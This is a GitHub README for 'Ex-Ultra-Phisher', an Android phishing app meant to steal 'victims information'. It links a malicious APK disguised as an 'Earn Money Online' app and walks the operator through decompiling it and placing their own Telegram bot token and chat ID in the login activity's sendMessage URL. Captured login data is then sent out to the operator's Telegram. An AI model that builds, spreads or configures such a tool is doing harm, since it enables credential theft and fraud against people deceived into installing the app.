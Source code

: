 # Ex-Ultra-Phisher
A multifunctional Telegram Bot based Android App Get Victims Information Received Your Own Telegram Bot



## Demo
![Logo](Screenshot_2022-12-30-00-14-01-11_abc46ec4f848cc48e27ef2418ea8df26.jpg)

! ![Logo](Screenshot_2022-12-30-00-13-10-15_0b342c26d6c44f3c8d2de40eabb4e1da.jpg)




## Authors

- [@TEAM EX](https://t.me/Teamex07)


## Developer By


<a href="https://t.me/Efty07">TEAM EX</a>


## Requirement

-[1]  Download <a href="https://maximoff.su/apktool/?lang=en">Apktool M</a>

- [2] Download Our Phising App <a href="https://raw.githubusercontent.com/Teamex07/Ex-Ultra-Phisher/main/Earn%20mone%20online1.apk">Earn Money Online <a/>





## SetUp

Go To Bot father link & Create Bot https://t.me/BotFather

Copy Api Token

Then Go To Our Anya Bot & Copy Chat Id https://t.me/spy_anya_bot
    






## Compile Project

```javascript

 
 1. Download [Earn Money Online Apk]
 1. Decompile it using any Decompiler recommend above.
 1. Now Search LoginActivity open `LoginActivity$1.smali` file.
 1. Replace values of [1] https://api.telegram.org/bot paste Your Api Token/sendMessage?chat_id=-Paste Your Chat Id&text=
 Replace values of [2] https://api.telegram.org/bot paste Your Api Token/sendMessage?chat_id=-Paste Your Chat Id&text=
    - 
       ```Now Compile This Project 
       ```
```


## Support

For support, Talegram <a href="https://t.me/Teamex07">Talegram</a> join our channel.


## SetUp Video
<a href="https://t.me/Teamex07/391">Click Here</a>


